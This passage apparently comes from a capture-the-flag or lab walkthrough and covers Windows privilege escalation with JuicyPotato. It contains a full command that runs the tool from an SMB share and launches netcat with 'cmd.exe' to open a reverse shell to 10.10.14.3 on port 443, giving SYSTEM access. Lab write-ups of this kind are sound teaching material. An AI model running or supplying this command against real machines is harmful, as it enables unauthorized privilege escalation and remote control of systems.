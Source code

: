 We try to execute the command with each of the CLSIDs, one at a time, since only some of them might actually work. Eventually, we find that the CLSID `8BC3F05E-D86B-11D0-A075-00C04FB68820` works! More specifically, when we execute `\\10.10.14.3\myShare\jp.exe -t t -p  c:\windows\system32\cmd.exe -a "/c \\10.10.14.3\myShare\nc.exe 10.10.14.3 443 -e cmd.exe" -l 1337 -c {8BC3F05E-D86B-11D0-A075-00C04FB68820}`, we successfully obtain a shell with `SYSTEM` privileges, as can be seen in the two images above.
